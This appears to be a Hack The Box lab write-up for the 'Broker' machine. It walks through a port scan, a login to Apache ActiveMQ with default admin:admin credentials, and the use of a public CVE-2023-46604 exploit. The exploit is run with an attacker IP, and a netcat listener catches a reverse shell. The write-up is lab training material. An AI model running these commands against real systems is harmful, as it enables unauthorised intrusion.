

repository: gmrvh/blog · page: htb/broker/index.html · generator: mkdocs

# Broker - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed only two open ports:
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
```

### Web Enumeration
Upon accessing the web server on port 80, I was presented with a basic HTTP authentication prompt:
```
WWW-Authenticate: Basic realm="ActiveMQRealm"
```

This indicated that Apache ActiveMQ was running on the server, which is a popular message broker application.

## Gaining Initial Access

### Default Credentials
I attempted to use common default credentials for ActiveMQ:
```bash
curl -v -u admin:admin http://10.129.230.87
```

This was successful, confirming that the server was using default credentials:
- **Username**: admin
- **Password**: admin

### Service Version Identification
After authenticating, I examined the web interface to determine the ActiveMQ version:
```bash
curl -s -u admin:admin http://10.129.230.87 | grep -i version
```

This revealed that ActiveMQ version 5.15.0 was running on the server.

### Vulnerability Research
Research indicated that ActiveMQ 5.15.0 is vulnerable to a critical remote code execution vulnerability, identified as CVE-2023-46604. This vulnerability allows an attacker to send specially crafted serialized data to the OpenWire protocol port, leading to remote code execution.

### Exploit Development
I used a publicly available exploit for CVE-2023-46604:
```bash
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
```

I prepared the exploit with my attack machine's IP and a chosen port for the reverse shell:
```bash
python3 activemq-exploit.py -i 10.10.14.15 -p 4444 -t http://10.129.230.87
```

I set up a listener to catch the reverse shell:
```bash
nc -lvnp 4444
```

After executing the exploit, I received a shell as the `activemq` user, confirming successful exploitation of the vulnerability.
